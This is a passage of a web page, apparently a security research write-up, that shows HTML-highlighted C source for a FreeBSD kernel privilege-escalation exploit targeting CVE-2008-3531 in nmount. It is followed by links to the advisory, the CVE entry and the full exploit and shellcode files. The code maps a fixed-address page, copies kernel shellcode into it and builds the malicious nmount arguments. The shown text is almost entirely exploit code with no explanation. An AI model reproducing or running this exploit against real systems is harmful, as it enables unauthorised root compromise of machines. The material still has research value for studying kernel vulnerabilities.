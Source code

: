     vptr <span style="color: #339933;">=</span> mmap<span style="color: #009900;">&#40;</span><span style="color: #009900;">&#40;</span><span style="color: #993333;">void</span> <span style="color: #339933;">*</span><span style="color: #009900;">&#41;</span>ADDR<span style="color: #339933;">,</span> PAGESIZE<span style="color: #339933;">,</span> PROT_READ <span style="color: #339933;">|</span> PROT_WRITE<span style="color: #339933;">,</span>
            MAP_FIXED <span style="color: #339933;">|</span> MAP_ANON <span style="color: #339933;">|</span> MAP_PRIVATE<span style="color: #339933;">,</span> <span style="color: #339933;">-</span><span style="color: #0000dd;">1</span><span style="color: #339933;">,</span> <span style="color: #0000dd;"></span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    <span style="color: #b1b100;">if</span><span style="color: #009900;">&#40;</span>vptr <span style="color: #339933;">==</span> MAP_FAILED<span style="color: #009900;">&#41;</span>
    <span style="color: #009900;">&#123;</span>
        <span style="color: #000066;">perror</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"mmap"</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
        <span style="color: #000066;">exit</span><span style="color: #009900;">&#40;</span>EXIT_FAILURE<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
    <span style="color: #009900;">&#125;</span>
&nbsp;
    vptr <span style="color: #339933;">+=</span> OFFSET<span style="color: #339933;">;</span>
    <span style="color: #000066;">printf</span><span style="color: #009900;">&#40;</span><span style="color: #ff0000;">"[*] vptr = 0x%.8x<span style="color: #000099; font-weight: bold;">\n</span>"</span><span style="color: #339933;">,</span> <span style="color: #009900;">&#40;</span><span style="color: #993333;">unsigned</span> <span style="color: #993333;">int</span><span style="color: #009900;">&#41;</span>vptr<span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    <span style="color: #000066;">memcpy</span><span style="color: #009900;">&#40;</span>vptr<span style="color: #339933;">,</span> kernelcode<span style="color: #339933;">,</span> <span style="color: #009900;">&#40;</span><span style="color: #993333;">sizeof</span><span style="color: #009900;">&#40;</span>kernelcode<span style="color: #009900;">&#41;</span> <span style="color: #339933;">-</span> <span style="color: #0000dd;">1</span><span style="color: #009900;">&#41;</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    mkdir<span style="color: #009900;">&#40;</span>DIRPATH<span style="color: #339933;">,</span> <span style="color: #208080;">0700</span><span style="color: #009900;">&#41;</span><span style="color: #339933;">;</span>
&nbsp;
    iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;"></span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_base</span> <span style="color: #339933;">=</span> <span style="color: #ff0000;">"fstype"</span><span style="color: #339933;">;</span>
    iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;"></span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_len</span> <span style="color: #339933;">=</span> <span style="color: #000066;">strlen</span><span style="color: #009900;">&#40;</span>iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;"></span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_base</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">+</span> <span style="color: #0000dd;">1</span><span style="color: #339933;">;</span>
&nbsp;
    iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">1</span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_base</span> <span style="color: #339933;">=</span> FSNAME<span style="color: #339933;">;</span>
    iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">1</span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_len</span> <span style="color: #339933;">=</span> <span style="color: #000066;">strlen</span><span style="color: #009900;">&#40;</span>iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">1</span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_base</span><span style="color: #009900;">&#41;</span> <span style="color: #339933;">+</span> <span style="color: #0000dd;">1</span><span style="color: #339933;">;</span>
&nbsp;
    iov<span style="color: #009900;">&#91;</span><span style="color: #0000dd;">2</span><span style="color: #009900;">&#93;</span>.<span style="color: #202020;">iov_base</span> <span style="color: #339933;">=</span> <span style="color: #ff0000;">"fspath"</span><span style="color: #339933;">;</span>

 [1]: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-3531
 [2]: http://security.freebsd.org/advisories/FreeBSD-SA-08:08.nmount.asc
 [3]: http://www.freebsd.org/cgi/man.cgi?query=nmount&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [4]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=8&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [5]: http://www.freebsd.org/cgi/man.cgi?query=mmap&#038;apropos=0&#038;sektion=2&#038;manpath=FreeBSD+7.0-RELEASE&#038;format=html
 [6]: http://www.freebsd.org/cgi/man.cgi?query=sysctl&#038;sektion=3&#038;apropos=0&#038;manpath=FreeBSD+7.0-RELEASE
 [7]: http://census-labs.com/research/#kernexp
 [8]: http://www.blackhat.com/presentations/bh-usa-03/bh-us-03-cesare.pdf
 [9]: http://census-labs.com/media/cve-2008-3531-kernelcode.s
 [10]: http://census-labs.com/media/cve-2008-3531.c